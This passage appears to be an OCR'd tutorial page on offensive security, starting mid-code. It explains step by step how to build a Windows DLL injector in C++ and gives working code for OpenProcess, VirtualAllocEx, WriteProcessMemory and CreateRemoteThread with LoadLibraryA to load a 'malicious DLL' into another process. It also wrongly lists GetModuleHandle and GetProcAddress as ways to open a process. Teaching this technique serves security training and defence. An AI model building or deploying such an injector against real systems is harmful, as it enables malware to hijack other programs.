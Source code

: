 ```cpp
}
DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```
At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`
```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```
At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`
```cpp
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write the allocated region.
```cpp
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```
At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`, imported from `kernel32` once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.
```cpp
LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, // pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```
Compiling these will create a DLL injector
